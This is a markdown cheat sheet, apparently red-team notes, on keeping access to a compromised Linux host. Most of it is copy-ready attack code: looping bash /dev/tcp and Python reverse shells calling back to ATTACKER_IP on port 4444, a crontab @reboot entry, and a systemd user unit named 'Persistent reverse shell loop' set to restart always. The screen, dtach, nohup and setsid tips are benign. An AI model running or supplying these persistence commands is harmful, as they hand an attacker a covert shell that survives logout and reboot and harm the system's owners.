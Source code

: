 # Linux Persistence

## Reverse Shells

**Target (background, auto-reconnect):**

```bash
( while true; do bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1; sleep 10; done ) & disown
```

**Alternate (Python one-liner wrapped for reconnect):**

```bash
( while true; do python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("ATTACKER_IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"])'; sleep 10; done ) & disown
```

**Cron it:**

```bash
crontab -e
# add a line (example: run a reconnect script at reboot)
@reboot (sleep 60; while true; do bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1; sleep 10; done) &
```

---

## Sessions (No tmux)

### Screen

Often available when tmux is not.

```bash
# screen
screen -S redteam
# inside: run tools
# detach: Ctrl-a d
# reattach: screen -r redteam

# dtach (if present)
dtach -A /tmp/attach.sock -z bash
# detach: Ctrl-\, reattach: dtach -a /tmp/attach.sock
```

---

### Simple background

When you only need a job to continue after logout (no interactive reattach).

```bash
# start a long job in background and detach it from shell
nohup command -args > /tmp/command.out 2>&1 &
# if using bash/zsh: disown the job so SIGHUP won't kill it
disown %1

# check later after reconnect:
tail -f /tmp/command.out

# Alternative if nohup is odd
setsid command -args -o /tmp/command.log </dev/null >/dev/null 2>&1 &
```

## Systemd

### User unit

Create `~/.config/systemd/user/persist-shell.service`:

```ini
[Unit]
Description=Persistent reverse shell loop

[Service]
Type=simple
ExecStart=/bin/bash -lc 'while true; do bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1; sleep 10; done'
Restart=always

[Install]
WantedBy=default.target
```

Enable & start (user unit):

```bash
systemctl --user daemon-reload
systemctl --user enable --now persist-shell.service
```

